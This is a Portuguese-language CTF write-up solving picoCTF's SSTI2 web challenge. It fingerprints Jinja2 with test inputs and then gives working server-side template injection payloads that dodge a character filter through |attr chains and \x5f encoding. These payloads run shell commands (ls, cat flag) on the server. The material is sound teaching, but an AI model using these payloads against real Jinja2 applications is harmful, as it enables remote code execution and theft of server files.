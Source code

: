 # SSTI2
###### Solved by @joaoselim
> This CTF is about web, SSTI

## About the challenge
A questão [SSTI2]({{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
) possui o enunciado `I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)` junto de um link gerado para o site.

Explica que tem um site onde é possível anunciar qualquer coisa, mas que diferente do desafio [SSTI1](https://play.picoctf.org/practice/challenge/492?page=1&search=SSTI) agora tem um filtro que bloqueia certas entradas.

## Solution
Ao abrir o site encontra-se uma página simples com texto e um espaço para inserir informação.

[![tela-inicial.png](https://i.postimg.cc/nrSb2tJ9/tela-inicial.png)](https://postimg.cc/jnfFqmCR)

O nome da questão é uma informação de que o desafio é baseado em [SSTI(Server Side Template Injection)](https://portswigger.net/web-security/server-side-template-injection#what-is-server-side-template-injection),
que se trata de injeção de código nos templates.

O primeiro passo é identificar qual o tipo de template que estamos lidando; para determinar isso existem testes, como exemplificado na árvore de decisões.

[![template-decision-tree.png](https://i.postimg.cc/66bpzkzh/template-decision-tree.png)](https://postimg.cc/yW9K8rMJ)

O primeiro payload a verificar é `${7*7}`. Inserindo tem como saída:

[![input1.png](https://i.postimg.cc/xC01FYW6/input1.png)](https://postimg.cc/NyztKhGX)

Não funcionou, o programa apenas interpretou como texto comum e não executou o código.

Seguindo a tabela, o próximo payload a ser inserido é `{{7*7}}`. Inserindo se tem como saída.

[![input2.png](https://i.postimg.cc/J0YgCcts/input2.png)](https://postimg.cc/QK5Sp7QD)

Dessa vez o programa foi executado, foi interpretado que deveria realizar a multiplicação de `7 * 7` retornando `49`.

O próximo payload a ser testado é `{{7*'7'}}`. Inserindo se tem como saída.

[![input3.png](https://i.postimg.cc/rmqd45jZ/input3.png)](https://postimg.cc/t1mCQZLF)

Com isso é possível se constatar que se trata de [Jinja2](https://www.treinaweb.com.br/blog/o-que-e-o-jinja2).

A partir desse ponto, o objetivo é entender como funciona a filtragem e elaborar um payload que seja aceito pelo site.
Verificando o código fonte do site e analisando, entende-se que não tem como ter acesso direto ao filtro. Portanto a maneira de seguir é inserindo payloads e observar o que é aceito ou não.

Inserindo payloads como:
```
{{ self._init.globals.builtins.import_('os').popen('id').read() }}
```
```
{{config._class.init.globals_['os'].popen('ls').read()}}
```
Observa-se que algumas das strings filtradas incluem `.`, `'os'`, `[]` e a remoção do caracter `_`.

[![inputfalho.png](https://i.postimg.cc/XJJTJ7mG/inputfalho.png)](https://postimg.cc/WDB9Yj2T)

Para driblar o filtro, codificamos os caracteres necessários para o código. Substituindo `.` por `\x5f` e `_` por `|attr`, obtém-se no payload:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```
Inserindo ele, retorna a informação de arquivos localizados na pasta atual

[![inputls.png](https://i.postimg.cc/3RkYqBKc/inputls.png)](https://postimg.cc/47RD7pH6)

Com essa saída constatou-se a existência de um arquivo `flag`.

Agora é necessário acessar o conteúdo do arquivo, através do comando `cat` e indicando o arquivo em questão, se gera o payload:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
Inserindo, obtém-se a saída:

[![inputflag.png](https://i.postimg.cc/PqhC00cF/inputflag.png)](https://postimg.cc/SnTQM1mW)

Assim chegando na flag:
>'picoCTF{sst1_f1lt3r_byp4ss_4de30aa0}'
